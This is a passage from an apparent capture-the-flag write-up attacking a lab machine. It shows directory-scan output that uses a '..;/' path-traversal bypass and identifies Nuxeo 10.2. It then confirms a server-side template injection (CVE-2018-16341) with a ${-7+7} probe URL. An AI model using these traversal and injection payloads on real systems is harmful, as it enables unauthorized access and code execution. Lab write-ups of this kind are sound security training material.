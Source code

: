     401      GET        4l       16w      220c http://10.10.11.115/maintenance/..;/ws
    302      GET        0l        0w        0c http://10.10.11.115/maintenance/..;/incl => /nuxeo/Maintenance/..;/incl/
    302      GET        0l        0w        0c http://10.10.11.115/maintenance/..;/analytics => /nuxeo/Maintenance/..;/analytics/
    302      GET        0l        0w        0c http://10.10.11.115/maintenance/..;/ui => /nuxeo/Maintenance/..;/ui/
    302      GET        0l        0w        0c http://10.10.11.115/maintenance/..;/Maintenance => /nuxeo/Maintenance/..;/Maintenance/
    401      GET        4l       16w      220c http://10.10.11.115/maintenance/..;/viewer
    401      GET        4l       16w      220c http://10.10.11.115/maintenance/..;/oauth
    401      GET        4l       16w      220c http://10.10.11.115/maintenance/..;/authentication
    200      GET       94l      272w     2456c http://10.10.11.115/maintenance/..;/page_not_found.jsp
    302      GET        0l        0w        0c http://10.10.11.115/maintenance/..;/permissions => /nuxeo/Maintenance/..;/permissions/
    302      GET        0l        0w        0c http://10.10.11.115/maintenance/..;/pagination => /nuxeo/Maintenance/..;/pagination/
    401      GET        4l       16w      220c http://10.10.11.115/maintenance/..;/startup
    302      GET        0l        0w        0c http://10.10.11.115/maintenance/..;/viewers => /nuxeo/Maintenance/..;/viewers/
    [####################] - 3m     59998/59998   0s      found:35      errors:0      
    [####################] - 3m     59998/59998   296/s   http://10.10.11.115/maintenance/..; 
    

Of the things that returned 200, one was `/maintenance/..;/login.jsp`, which
presents the Nuxeo login form:

![image-20220127143725835](https://0xdfimages.gitlab.io/img/image-20220127143725835.png)

### Nuxeo Vulnerability

#### Background

The bottom of the login page says Nuxeo is running version 10.2. Some Googling
for “Nuxeo 10 exploit” leads to [this
repo](https://github.com/mpgn/CVE-2018-16341) about CVE-2018-16341, which the
author calls “Nuxeo Authentication Bypass Remote Code Execution”.

There is a server-side template injection in the Java application, which means
if I can include a string like `${-7+7}` somewhere that it will be parsed as
code, then I can get Java running and therefore get remote code execution.

#### Testing

To test for this, the repo suggests visiting the url:

    
    
    http://127.0.0.1:8080/nuxeo/login.jsp/pwn${-7+7}.xhtml"
    

There’s been code execution if `${-7+7}` is replaced with a `0`.

Updating the URI to reach the the login page on Hancliffe works:

![image-20220127144904131](https://0xdfimages.gitlab.io/img/image-20220127144904131.png)
